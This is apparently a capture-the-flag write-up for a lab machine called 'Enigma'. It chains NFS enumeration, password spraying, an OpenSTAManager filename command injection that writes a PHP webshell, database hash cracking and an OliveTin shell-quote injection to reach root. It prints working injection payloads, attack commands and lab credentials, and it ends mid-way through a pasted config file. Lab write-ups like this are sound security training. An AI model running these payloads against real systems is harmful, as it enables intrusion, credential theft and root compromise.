#  Enigma

```
Difficulty: Easy
OS: Linux (Ubuntu 24.04)
Services: HTTP, IMAP/POP3/IMAPS, NFS, SMB, RPC
```

### Summary

Enigma exposed several services: HTTP, mail, NFS, and local RPC/NFS support. The foothold came from an onboarding PDF on an NFS export, which provided Roundcube credentials. Reusing the same password against another mail account exposed OpenSTAManager credentials. OpenSTAManager was then exploited through a `.p7m` upload filename command injection to gain code execution as `www-data`.

Privilege escalation to `haris` came from OpenSTAManager database credentials in the web configuration and a bcrypt hash in the `zz_users` table. Root was obtained through a locally exposed OliveTin instance running as root, where a database backup action embedded an unsanitized password argument inside a shell command.


## Offensive Operations

#### Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
| :---: | :------------ | :----------------------------------- | :---------------------------------------------------------------------------------- |
| 1 | Anonymous | NFS Export Enumeration** | Mounted unauthenticated NFS share `/srv/nfs/onboarding` and retrieved employee onboarding PDF containing plaintext credentials. |
| 2 | kevin | **Roundcube Webmail Access** | Authenticated to `mail001.enigma.htb` as `kevin` and discovered internal mail referencing a second account. |
| 3 | sarah | **Credential Reuse (IMAP Spray)** | Sprayed recovered password against IMAP with Hydra; `sarah` reused `kevin`'s password, exposing her mailbox. |
| 4 | sarah | **Mail Exfiltration** | Extracted OpenSTAManager admin credentials and personal API token from `sarah`'s inbox. |
| 5 | admin | **OpenSTAManager Authentication** | Authenticated to `support_001.enigma.htb` as `admin` using credentials from sarah's mail. |
| 6 | www-data | **CVE-2025-69212 — Filename Command Injection (VSIX Upload)** | Injected shell metacharacters into `.p7m` ZIP entry filename to break out of `openssl` shell call and write PHP webshell to `files/`. |
| 7 | www-data | **Web Config Disclosure** | Read OpenSTAManager `config.php` from web context, recovering MySQL credentials for user `brollin`. |
| 8 | www-data | **MySQL Credential Dump** | Queried `zz_users` table; extracted bcrypt hashes for `admin` and `haris`. |
| 9 | haris | **Offline Hash Cracking (bcrypt / rockyou)** | Cracked `haris` bcrypt hash with John the Ripper; recovered password `bestfriends`. |
| 10 | haris | **Local User Pivot (`su`)** | Pivoted from `www-data` to `haris` via `su` through the webshell. Retrieved `user.txt`. |
| 11 | haris | **Local Service Enumeration** | Identified OliveTin running as `root` on `127.0.0.1:1337` with guest execution enabled and no authentication required. |
| 12 | haris | **OliveTin Config Disclosure** | Read `/etc/OliveTin/config.yaml`; identified `Backup Database` action interpolating `db_pass` unsanitized inside single-quoted shell string. |
| 13 | root | **OliveTin Shell Injection (Single-Quote Escape)** | Sent crafted gRPC/HTTP request to `/api/olivetin.api.v1.OliveTinApiService/StartActionAndWait` with `db_pass` payload `x' ; cat /root/root.txt ; #`, breaking out of shell quoting. OliveTin executed command as root and returned flag in action log. |




### Enumeration

Initial TCP enumeration found:

```bash
nmap -p- --min-rate 5000 -oA nmap-allports 10.XXX.XXX.XXX
nmap -sCV -p 22,80,110,111,143,993,995,2049,<rpc-ports> -oA nmap-services 10.XXX.XXX.XXX
```

Important services:

- `22/tcp`: OpenSSH, public-key authentication only
- `80/tcp`: HTTP, redirecting to `enigma.htb`
- `110/143/993/995`: Dovecot POP3/IMAP
- `2049/tcp`: NFS

The NFS export was visible with:

```bash
showmount -e 10.XXX.XXX.XXX
```

It exposed:

```text
/srv/nfs/onboarding *
```




```bash
 sudo mkdir -p /mnt/nfs

 sudo mount -t nfs 10.XXX.XXX.XXX:/srv/nfs/onboarding /mnt/nfs

 ls -la /mnt/nfs
total 12
drwxr-xr-x 2 root root 4096 Feb 19 19:54 .
drwxr-xr-x 3 root root 4096 Jun 28 13:36 ..
-rw-r--r-- 1 root root 1751 Feb 19 19:53 New_Employee_Access.pdf

 
```





Mounting the export revealed `New_Employee_Access.pdf`. Extracting text from the PDF disclosed the first set of credentials:

```text
Webmail: http://mail001.enigma.htb
Username: kevin
Password: Enigma2024!
```


[New_Employee_Access.pdf](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Enigma/New_Employee_Access.pdf "Results")




### Mail Access



The Roundcube instance was available at `mail001.enigma.htb`. The `kevin` account contained a message from Sarah pointing back to the shared drive. A targeted credential reuse check against IMAPS showed that Sarah reused the same password:





```bash
hydra -L users.txt -P pwds.txt -s 993 -S -f 10.XXX.XXX.XXXimap
```




Sarah's mailbox contained OpenSTAManager credentials:

```text
URL: http://support_001.enigma.htb
Username: admin
Password: Ne3s4rtars78s
```









```text
You can use the toke for enter at the API of management software and for visualize the calendar on external applications.

Personal Token: 9ypNtDz1PgUPvXku9psL5wfr8pswjB67

URL of the API: http://support_001.enigma.htb/api/?token=9ypNtDz1PgUPvXku9psL5wfr8pswjB67
```





### Foothold

The support vhost ran OpenSTAManager 2.9.8. After authenticating as `admin`, a command injection in `.p7m` ZIP upload processing was used to write a PHP webshell into the web-accessible `files` directory.


This is the CVE-2025-69212 command injection payload from the exploit script - crafting the malicious filename that breaks out of the openssl command and drops a webshell.


The malicious ZIP entry name was shaped like:

```text
invoice.p7m"; cd files && echo '<?php system($_GET["c"]); ?>' > sh.php; echo ".p7m
```

[zip.py](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Enigma/zip.py "Results")




Uploading it to the document upload endpoint executed the injected shell command and created:



```text
http://support_001.enigma.htb/files/sh.php?c=id
```

The shell ran as:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```








### User

OpenSTAManager's database configuration was readable from the web context:

```php
. */ // Impostazioni di base per l'accesso al database $db_host = 'localhost'; $db_username = 'brollin'; $db_password = 'Fri3nds@9099'; $db_name = 'openstamanager'; // $port = '|port|'; $db_options = [ // 'sort_buffer_size' => '2M', ]; // Tema selezionato per il front-end $theme = 'default'; // Impostazioni di sicurezza $redirectHTTPS = false; // Redirect automatico delle richieste da HTTP a HTTPS $disableCSRF = true; // Protezione contro CSRF // Impostazioni di debug $debug = false; $disable_hooks = false; // Permette di accedere solo con un ip (da utilizzare per manutenzione) $maintenance_ip = ''; // Personalizzazione dei gestori dei tag personalizzati $HTMLWrapper = null; $HTMLHandlers = []; $HTMLManagers = []; // Lingua del progetto (per la traduzione e la conversione numerica) $lang = 'en_GB'; // Personalizzazione della formattazione di timestamp, date e orari $formatter = [ 'timestamp' => 'd/m/Y H:i', 'date' => 'd/m/Y', 'time' => 'H:i', 'number' => [ 'decimals' => ',', 'thousands' => '', ], ]; // Ulteriori file CSS e JS da includere $assets = [ 'css' => [], 'print' => [], 'js' => [], ]; // Configura il limite di tempo di esecuzione del file cron.php $php_time_limit = ''; 


$db_username = 'brollin';
$db_password = 'Fri3nds@9099';
$db_name = 'openstamanager';
```








Querying the `zz_users` table produced a bcrypt hash for `haris`:

```bash
mysql -ubrollin -pFri3nds@9099 openstamanager -e 'SELECT username,password FROM zz_users;'


username password admin $2y$10$rTJVUNyGGKPlhw2cFdf5AeDHVMhnIChddcHx2XxVLMQS2KsuSz4Pu haris $2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC 
```




The hash cracked with John:

```bash
john --wordlist=rockyou.txt hash.txt
```





Recovered password:

```text
haris:bestfriends
```

Using `su` through the webshell gave access as `haris`, and the user flag was readable:

```bash
echo 'bestfriends' | su - haris -c 'cat /home/haris/user.txt'
```

User flag:

```text
[REDACTED_USER_FLAG]
```






### Root

Local enumeration as `haris` showed OliveTin listening only on loopback and running as root:

```bash
ss -ltnp | grep 1337

LISTEN 0 4096 127.0.0.1:1337 0.0.0.0:* 


ps aux | grep -i OliveTin

root 1528 0.0 0.3 1238736 14792 ? Ssl 03:31 0:00 /usr/local/bin/OliveTin www-data 3539 0.0 0.0 2800 1876 ? S 07:29 0:00 sh -c -- ps aux | grep -i OliveTin www-data 3541 0.0 0.0 3528 1784 ? S 07:29 0:00 grep -i OliveTin 
```







The active config was `/etc/OliveTin/config.yaml`. It defined a `Backup Database` action:


```text
eth0:
    flags=4163<UP,BROADCAST,RUNNING,MULTICAST>
    mtu 1500

    IPv4 Address : 10.XXX.XXX.XXX
    Netmask      : 255.255.0.0
    Broadcast    : 10.129.255.255

    IPv6 Address : dead:beef::250:56ff:feb9:955e/64
    Link-Local   : fe80::250:56ff:feb9:955e/64

    MAC Address  : 00:50:56:b9:95:5e

    TX Queue     : 1000

    RX Packets   : 74,962
    RX Bytes     : 4,834,315 (4.8 MB)
    RX Errors    : 0
    RX Dropped   : 0
    RX Overruns  : 0
    RX Frame     : 0

    TX Packets   : 9,564
    TX Bytes     : 1,767,536 (1.7 MB)
    TX Errors    : 0
    TX Dropped   : 0
    TX Overruns  : 0
    TX Carrier   : 0
    Collisions   : 0


lo (Loopback):
    flags=73<UP,LOOPBACK,RUNNING>
    mtu 65536

    IPv4 Address : 127.0.0.1
    Netmask      : 255.0.0.0

    IPv6 Address : ::1/128

    TX Queue     : 1000

    RX Packets   : 6,451
    RX Bytes     : 507,527 (507.5 KB)
    RX Errors    : 0
    RX Dropped   : 0
    RX Overruns  : 0
    RX Frame     : 0

    TX Packets   : 6,451
    TX Bytes     : 507,527 (507.5 KB)
    TX Errors    : 0
    TX Dropped   : 0
    TX Overruns  : 0
    TX Carrier   : 0
    Collisions   : 0
```


```
# There is a built-in micro proxy that will host the webui and REST API all on # one port (this is called the "Single HTTP Frontend") and means you just need # one open port in the container/firewalls/etc. # # Listen on all addresses available, port 1337 listenAddressSingleHTTPFrontend: 127.0.0.1:1337 # Choose from INFO (default), WARN and DEBUG # Docs: https://docs.olivetin.app/advanced_configuration/logs.html logLevel: "INFO" # Actions are commands that are executed by OliveTin, and normally show up as # buttons on the WebUI. # # Docs: https://docs.olivetin.app/action_execution/create_your_first.html actions: # This is the most simple action, it just runs the command and flashes the # button to indicate status. # # If you are running OliveTin in a container remember to pass through the # docker socket! https://docs.olivetin.app/solutions/container-control-panel/index.html - title: Ping the Internet shell: ping -c 3 1.1.1.1 icon: ping popupOnStart: execution-dialog-stdout-only # This uses `popupOnStart: execution-dialog-stdout-only` to simply show just # the command output. - title: Check disk space icon: disk shell: df -h /media popupOnStart: execution-dialog-stdout-only # This uses `popupOnStart: execution-dialog` to show a dialog with more # information about the command that was run. - title: check dmesg logs shell: dmesg | tail icon: logs popupOnStart: execution-dialog # This uses `popupOnStart: execution-button` to display a mini button that # links to the logs. # # You can also rate-limit actions too. - title: date shell: date id: date timeout: 6 icon: clock popupOnStart: execution-button maxRate: - limit: 3 duration: 1m # You are not limited to operating system commands, and of course you can run # your own scripts. Here `maxConcurrent` stops the script running multiple # times in parallel. There is also a timeout that will kill the command 